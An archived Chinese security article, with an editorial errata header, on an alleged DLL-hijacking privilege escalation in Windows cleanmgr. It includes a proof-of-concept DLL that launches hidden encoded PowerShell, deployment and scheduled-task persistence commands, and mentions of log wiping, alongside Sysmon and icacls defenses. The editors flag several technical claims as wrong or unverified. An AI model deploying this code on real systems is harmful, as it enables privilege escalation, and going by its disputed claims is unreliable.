

# 预警！Windows磁盘清理工具惊现高危漏洞，你的电脑可能面临被控制风险！

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows cleanmgr CVE-2025-21420
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：无官方公告/KB/影响Windows版本，修复全为猜测
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 无官方公告/KB/影响Windows版本，修复全为猜测
2. 仅用户目录同名System32嵌套路径不会自动变系统目录，缺实际加载调用/路径构造证据
3. 手动cleanmgr及默认schtasks未指定SYSTEM并不证明提权
4. CreateProcessW第二参数使用不可写字符串且导出签名简化，与声称精确导出表不符
5. mkdir -p/Windows路径混shell，sageset只设置不等于执行清理
6. 合法DLL签名不可复制到已修改恶意DLL
7. CWDIllegalInDllSearch不是SetDefaultDllDirectories/组策略，数值及作用需核，icacls无法证明阻止所有变体
8. 泛日志清除/持久化是攻击扩展非必要验证，Sysmon签名字符串过滤不足判攻击

### 操作风险

泛日志清除/持久化是攻击扩展非必要验证，Sysmon签名字符串过滤不足判攻击

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

云梦DC  云梦安全   2025-02-28 00:48  
  
漏洞概述  
  
CVE ID：CVE-2025-21420  
  
漏洞类型：DLL劫持（DLL Sideloading）引发的权限提升（EoP）  
  
影响组件：Windows磁盘清理工具（cleanmgr.exe）  
  
攻击复杂度：低（需用户交互或自动化触发）  
  
权限需求：需具备用户级文件写入权限  
  
风险等级：高危（可获取SYSTEM权限）  
  
  
  
  
漏洞机理深度剖析  
  
1. DLL搜索顺序劫持  
  
Windows系统加载DLL时，默认按以下顺序搜索（部分场景可能受SafeDllSearchMode影响）：  
  
应用程序所在目录  
  
系统目录（C:\Windows\System32）  
  
16位系统目录  
  
Windows目录  
  
当前工作目录  
  
PATH环境变量目录  
  
漏洞触发点：  
  
cleanmgr.exe在调用dokan1.dll或dokannp1.dll（Dokan库组件）时，未正确限定DLL加载路径，导致攻击者可通过构造特殊目录结构（如用户目录下的System32\System32\System32）优先加载恶意DLL。  
  
2. 路径混淆攻击  
  
攻击者利用文件系统路径解析逻辑缺陷：  
  
用户目录下创建嵌套路径：C:\Users\<user>\System32\System32\System32\  
  
系统API（如LoadLibrary）在解析非绝对路径时，可能错误将此路径视为合法系统目录，导致加载恶意DLL。  
  
关键验证方法：  
  
通过Process Monitor（ProcMon）监控cleanmgr.exe的DLL加载行为，可观察到其对伪造路径的访问记录。  
  
3. 权限提升链  
  
初始访问：攻击者诱导用户执行恶意脚本或通过计划任务部署恶意DLL。  
  
DLL劫持：cleanmgr.exe以SYSTEM权限运行时（如通过计划任务触发），加载恶意DLL。  
  
代码执行：恶意DLL的DllMain或导出函数（如DokanMain）执行任意代码，继承SYSTEM权限。  
  
PoC代码技术解析  
  
恶意DLL构造逻辑  
```
// 导出函数与合法dokan1.dll完全一致，避免触发异常
__declspec(dllexport) void DokanMain() { 
    static BOOL bExecuted = FALSE;
    if (!bExecuted) {
        bExecuted = TRUE;
        // 隐蔽启动PowerShell（无窗口）
        STARTUPINFO si = { sizeof(si) };
        PROCESS_INFORMATION pi;
        CreateProcessW(L"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe", 
                       L" -WindowStyle Hidden -EncodedCommand <BASE64_PAYLOAD>", 
                       NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
    }
}
```  
  
// 其他导出函数转发至DokanMain，防止崩溃  
  
__declspec(dllexport) void DokanDebugMode() { DokanMain(); }  
  
// ...（其余24个导出函数略）  
  
技术要点：  
  
导出函数匹配：精确复制合法DLL的导出表（可通过dumpbin /exports获取），确保兼容性。  
  
单次执行控制：使用static BOOL变量避免递归调用导致进程崩溃。  
  
隐蔽进程创建：通过CREATE_NO_WINDOW和Base64编码命令隐藏PowerShell活动。  
  
部署与触发  
```
# 将恶意DLL写入伪造路径
mkdir -p C:\Users\test\System32\System32\System32\
copy .\malicious.dll C:\Users\test\System32\System32\System32\dokannp1.dll
# 触发cleanmgr.exe（需等待计划任务或手动执行）
cleanmgr /sageset:2
```  
  
漏洞利用链扩展  
  
1. 持久化机制  
  
计划任务注入：  
  
通过恶意DLL创建计划任务，实现重启后维持权限。  
```
schtasks /create /tn "CleanupTrigger" /tr "cleanmgr /sageset:2" /sc hourly /mo 1
```  
  
服务安装：  
  
利用SYSTEM权限注册恶意服务，实现后台驻留。  
  
2. 绕过防御检测  
  
DLL白名单绕过：  
  
使用合法Dokan库签名（如果存在）或进程注入到可信进程（如explorer.exe）。  
  
日志擦除：  
  
调用EventLog API清除安全日志中相关条目。  
  
防御与检测方案  
  
1. 缓解措施（临时）  
  
目录权限加固：  
  
使用ICACLS禁止用户创建System32嵌套目录：  
```
icacls "C:\Users\%USERNAME%\System32" /deny Everyone:(OI)(CI)(DC)(DE,WD)
```  
  
  
DLL加载策略：  
  
通过组策略启用SetDefaultDllDirectories，限制DLL搜索路径：  
```
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "CWDIllegalInDllSearch" -Value 0x1 -Type DWORD
```  
  
2. 检测技术  
  
Sysmon监控：  
  
配置规则检测异常DLL加载事件：  
```
<RuleGroup name="DLL Hijacking">
  <ImageLoad onmatch="include">
    <ImageLoaded condition="contains">System32\System32\System32\</ImageLoaded>
    <Signature condition="not contains">Microsoft Corporation</Signature>
  </ImageLoad>
</RuleGroup>
```  
  
  
运行 HTML  
  
PowerShell脚本扫描：  
  
快速检测用户目录下的可疑路径：  
```
Get-ChildItem -Path "C:\Users\" -Recurse -Force -ErrorAction SilentlyContinue | 
  Where-Object { $_.FullName -match "System32\\System32\\System32" }
```  
  
  
3. 官方补丁前瞻  
  
微软可能采取的修复方向：  
  
绝对路径加载：在cleanmgr.exe中硬编码C:\Windows\System32\dokan1.dll。  
  
数字签名验证：调用WinVerifyTrust检查DLL签名。  
  
权限隔离：以低权限运行磁盘清理的敏感操作。  
  
结语  
  
CVE-2025-21420暴露了Windows系统工具在DLL加载机制上的深层安全隐患。攻击者通过路径混淆和导出表克隆即可实现权限飞跃，这对企业内网安全和终端防护提出严峻挑战。建议安全团队立即部署检测规则，并密切关注微软官方补丁动态。  
  
技术研究永无止境，防御之道在于细节。  
  
附录：分析工具链  
  
ProcMon：动态追踪DLL加载行为。  
  
Process Hacker：分析进程内存与句柄。  
  
IDA Pro：逆向分析cleanmgr.exe逻辑。  
  
YARA：编写规则检测恶意DLL特征。  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
